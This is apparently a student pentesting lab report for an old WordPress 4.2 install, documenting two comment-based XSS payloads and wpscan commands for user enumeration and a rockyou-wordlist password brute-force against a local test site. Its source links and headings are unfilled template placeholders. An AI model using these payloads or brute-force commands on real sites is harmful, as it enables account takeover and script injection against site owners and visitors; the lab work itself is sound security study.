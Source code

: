 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to stored XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/xWQw0
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;
		top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
		
		<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/BpbID
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: <script>alert('XSS');</script>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vunerability to enumeration through wpscan in kali linux terminal
    - Vulnerability types: user enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7
  - [x] GIF Walkthrough: https://imgur.com/a/EqxpY
  - [x] Steps to recreate: 
		1. open terminal;
		2. use command: wpscan --enumerate u --url wpdistillery.local;
		3. download text file rockyou-75.txt;
		4. use command: wpscan --url wpdistillery.local --wordlist '/root/rockyou-75.txt' --username admin

  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
rockyou-75.txt

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
encountered substaintial difficulties installing the wordpress software
encountered difficulties when attempting to use wpdistillery.dev and needed to use wpdistillery.local
encountered difficulties when attempting to switch between versions and needed to completely reinstall the software

## License

    Copyright [2017] [Beck Galbraith]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
